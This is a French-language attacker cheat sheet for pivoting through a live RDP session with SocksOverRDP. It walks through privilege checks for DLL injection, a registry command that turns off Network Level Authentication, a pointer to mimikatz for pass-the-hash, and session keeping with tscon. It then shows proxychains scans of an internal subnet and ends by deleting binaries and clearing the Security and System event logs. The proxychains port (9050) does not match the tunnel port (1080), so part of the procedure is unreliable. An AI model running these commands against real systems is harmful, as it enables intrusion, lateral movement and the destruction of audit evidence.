

Ce document détaille l'utilisation de **SocksOverRDP** pour établir un tunnel SOCKS5 via une session **RDP** active, permettant le **Pivoting** au sein d'un réseau interne.



## Vérification des privilèges requis

L'utilisation de **SocksOverRDP** nécessite des privilèges spécifiques sur la machine cible pour injecter la DLL dans le processus `rdpclip.exe` ou pour exécuter le service de tunnelisation.

*   **Privilèges :** L'utilisateur doit disposer des droits d'exécution sur la machine cible. Bien que le client puisse être lancé en tant qu'utilisateur standard, l'injection dans les processus système ou l'interaction avec des sessions RDP distantes peut nécessiter des privilèges `SeDebugPrivilege` ou `Administrateur`.
*   **Vérification :**
```powershell
whoami /priv
```
S'assurer que `SeDebugPrivilege` est activé pour permettre l'injection dans les processus RDP distants.

## Installation

### Téléchargement de SocksOverRDP

Depuis la machine d'attaque :

```bash
git clone https://github.com/nccgroup/SocksOverRDP.git
```

## Déploiement Serveur

Le composant serveur doit être exécuté sur la machine Windows cible où une session **RDP** est active.

### Démarrage du serveur sur la cible

Sur la session **RDP** active, exécuter :

```powershell
.\SocksOverRDP.exe -d
```

Le serveur **SOCKS5** est alors actif sur **localhost:1080**. Pour spécifier un port personnalisé :

```powershell
.\SocksOverRDP.exe -d -p 8080
```

> [!danger] Risque élevé de détection par EDR/Logs
> L'exécution de binaires non signés ou l'ouverture de ports locaux sur des serveurs critiques peut déclencher des alertes EDR.

> [!warning] Incompatible avec NLA activé
> L'outil nécessite une session utilisateur interactive établie ; le **NLA** (Network Level Authentication) bloque l'accès aux ressources nécessaires avant l'authentification complète.

## Techniques de contournement NLA

Si le **NLA** est activé, la connexion RDP est rejetée avant que le canal virtuel ne puisse être initialisé. Pour contourner cette restriction :

1.  **Utilisation d'un compte compromis :** Si vous possédez des identifiants valides, utilisez-les pour authentifier la session RDP normalement.
2.  **Désactivation via GPO/Registre (si accès admin) :**
```powershell
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v UserAuthentication /t REG_DWORD /d 0 /f
```
3.  **Pass-the-Hash / Overpass-the-Hash :** Si le NLA est imposé, il est souvent préférable d'utiliser des outils comme `mimikatz` pour extraire des tickets Kerberos ou des hashs afin d'établir une session RDP légitime sans déclencher les alertes liées à l'injection de DLL.

## Connexion Attaquant

### Vérification de l'écoute sur la cible

Sur la machine Windows cible, confirmer l'ouverture du port :

```powershell
netstat -ano | findstr :1080
```

### Configuration du tunnel

Le tunnel est établi en redirigeant le trafic **SOCKS5** de la cible vers l'attaquant.

> [!note] Note technique
> Le tunnel est géré via le plugin DLL de **SocksOverRDP** ou le client dédié. L'usage de **plink.exe** est une méthode alternative de tunneling SSH, mais le flux **SocksOverRDP** natif s'appuie sur le canal virtuel **RDP**.

## Gestion des sessions RDP (query user/tscon)

Pour maintenir la persistance du tunnel, il est crucial de gérer les sessions RDP sans les fermer.

*   **Lister les sessions :**
```powershell
query user
```
*   **Déconnexion sans fermeture (pour garder le processus actif) :**
Au lieu de cliquer sur "Fermer", utilisez `tscon` pour détacher la session :
```powershell
tscon <ID_SESSION> /dest:console
```
Cela permet de laisser la session ouverte en arrière-plan, maintenant ainsi le tunnel **SocksOverRDP** actif tout en libérant l'interface graphique.

## Configuration Proxychains

Sur Kali Linux, éditer `/etc/proxychains.conf` pour définir le proxy :

```ini
socks5 127.0.0.1 9050
```

> [!tip] Nécessite une session RDP active
> Le tunnel dépend strictement de la persistance de la session **RDP**. Si la session est déconnectée ou fermée, le tunnel devient inopérant.

## Test Pivot

### Scanner un réseau interne

```bash
proxychains nmap -sT -Pn 172.16.5.0/24 -p3389 -v
```

### Accéder à une interface web interne

```bash
proxychains firefox
```

### Connexion RDP vers une autre cible

```bash
proxychains xfreerdp /v:172.16.5.19 /u:admin /p:password
```

## Limitations et Détection

| Limitation | Impact |
| :--- | :--- |
| Session active | Le tunnel est dépendant de la session utilisateur |
| NLA | Bloque l'injection du plugin si activé |
| Persistance | Le tunnel n'est pas persistant après déconnexion |
| Détection | Activité réseau inhabituelle via le processus **RDP** |

> [!warning] Le tunnel n'est pas persistant
> Toute coupure de la connexion **RDP** entraîne la fermeture immédiate du tunnel **SOCKS**. Il est recommandé de maintenir la session active via des techniques de gestion de session (ex: **tscon**).

## Nettoyage des traces (logs)

Après l'opération, il est impératif de supprimer les traces laissées sur le système cible :

1.  **Suppression des binaires :**
```powershell
del SocksOverRDP.exe
del SocksOverRDP-plugin.dll
```
2.  **Nettoyage des logs d'événements :**
Effacer les logs de connexion RDP (Event ID 4624, 4648) :
```powershell
wevtutil cl Security
wevtutil cl System
```
3.  **Réinitialisation du registre :** Si le NLA a été désactivé, rétablissez la valeur par défaut :
```powershell
reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v UserAuthentication /t REG_DWORD /d 1 /f
```

Ce sujet est étroitement lié aux techniques de **Pivoting**, à l'exploitation **RDP**, et à l'utilisation de **Proxychains** pour le routage du trafic.